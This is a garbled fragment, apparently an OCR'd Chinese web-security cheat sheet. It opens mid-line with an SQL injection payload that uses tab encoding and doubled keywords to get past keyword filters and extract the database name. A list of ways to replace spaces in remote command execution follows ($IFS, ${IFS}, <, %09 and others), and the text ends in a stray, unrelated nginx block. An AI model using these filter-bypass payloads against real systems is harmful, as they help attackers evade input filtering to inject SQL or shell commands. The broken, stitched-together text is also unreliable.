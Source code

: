 >           "%09and%091=2%09%09uniunionon%09SElselectect%091,(SElect(group_concat(database()))),3%09or%09"1
>           ```
>
>   





远程命令执行绕过空格

>   ```
>   　$IFS
>   　${IFS}
>   　$IFS$1 或 $IFS$2
>   　<
>   　<>
>   　%20
>   　%09
>   ```
>
>   ```nginx
>   html
>   css
>   javascrip
>   ```
>
>   































































